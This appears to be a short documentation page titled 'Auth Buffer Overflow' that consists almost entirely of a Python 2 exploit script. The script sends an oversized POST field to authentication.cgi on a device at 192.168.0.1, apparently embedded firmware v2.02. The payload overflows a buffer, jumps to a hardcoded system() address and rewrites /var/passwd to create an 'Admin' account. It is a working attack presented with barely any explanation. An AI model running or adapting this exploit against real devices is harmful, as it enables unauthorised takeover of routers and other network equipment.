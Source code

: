 +++
title = "Auth Buffer Overflow"
date = 2021-10-18T20:39:54-06:00
weight = 5
+++

## Auth Buffer Overflow
```python
import urllib
import urllib2

# This exploits the auth_main.cgi with read buffer overflow exploit for v2.02
# prequisite is just to have id and password fields in params

url = 'http://192.168.0.1/authentication.cgi'
junk = "A"*1004+"B"*37+"\x58\xf8\x40\x00" # address of system function in executable
junk+="X"*164+'echo  "Admin" "Admin" "0" > /var/passwd\x00'+"AAAA"
values = "id=test&password=test&test="+junk


req = urllib2.Request(url, values)
response = urllib2.urlopen(req)
the_page = response.read()
```
